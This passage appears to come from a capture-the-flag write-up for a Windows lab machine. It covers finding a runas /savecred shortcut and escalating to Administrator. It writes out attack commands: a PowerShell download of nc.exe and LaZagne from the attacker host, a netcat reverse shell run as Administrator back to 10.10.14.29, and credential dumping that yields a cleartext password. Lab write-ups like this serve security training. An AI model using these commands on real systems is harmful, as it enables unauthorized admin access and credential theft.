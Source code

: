             -   `Get-Content $file |`
                -   `Get-Content $file`: Reads the content of the file represented by `$file`.
                    -   `$file` is the current file path from the `lnkFiles.txt` file.

            -   `Select-String runas -ErrorAction SilentlyContinue }`
                -   `|`: Pipes the content of the file into the next command.
                -   `Select-String runas`: Searches the file's content for the string `"runas"`.
                    -   If `"runas"` is found, the corresponding line will be output.
                -   `-ErrorAction SilentlyContinue`: Suppresses any errors (e.g., if the file doesn't exist or there are issues reading it).



-   **We get a hit!!!**
    -   {{< figure src="/ox-hugo/2024-09-12-072950_.png" >}}
        1.  Tells us it is a `lnk` file for the ZKAccess3.5 binary.
        2.  We can see "`runas.exe`" is being used.
        3.  We can see the parmaters for the lnk file when it was created are:
            -   "`/user:ACCESS\Administrator /savecred "C:\ZKTeco\ZKAccess3.5\Access.exe"`"
        4.  The SID is the `500` sid which is the Administrator built in default account &amp; SID so we know it is 100% running in the context of that user when triggered.
    -   This means we can run any command in the context of the Administrator.


## 4. Ownership: {#4-dot-ownership}

Now that we know our privesc path I transfer my nc binary over to the host:

-   **Transfer nc binary**:
    -   `powershell -c "(New-Object Net.WebClient).DownloadFile('http://10.10.14.29:9000/nc.exe','C:\Users\Security\nc.exe')"`
        -   {{< figure src="/ox-hugo/2024-09-12-063330_.png" >}}
-   **Setup my listener**: on my own host:
    -   `nc -nvlp 9999`
-   **Trigger the exploit by running nc in the context of the administrator**:
    -   `runas /user:ACCESS\Administrator /savecred "C:\Users\security\nc.exe 10.10.14.29 9999 -e cmd"`
        -   {{< figure src="/ox-hugo/2024-09-12-063303_.png" >}}
-   **Get my root shell**:
    -   {{< figure src="/ox-hugo/2024-09-12-063246_.png" >}}

-   **Get the flag**:
    -   {{< figure src="/ox-hugo/2024-09-12-075636_.png" >}}


## 5. Persistence: {#5-dot-persistence}

-   **I transfer LaZagne.exe over to the host**:
    -   <https://github.com/AlessandroZ/LaZagne>
    -   `powershell -c "(New-Object Net.WebClient).DownloadFile('http://10.10.14.29:9000/LaZagne.exe','C:\Users\Security\lz.exe')"`

    -   **I then run it and extract the hashes**:
        -   {{< figure src="/ox-hugo/2024-09-12-081330_.png" >}}

    -   **I also get the clear text password for the Administrator user**:
        -   {{< figure src="/ox-hugo/2024-09-12-081604_.png" >}}
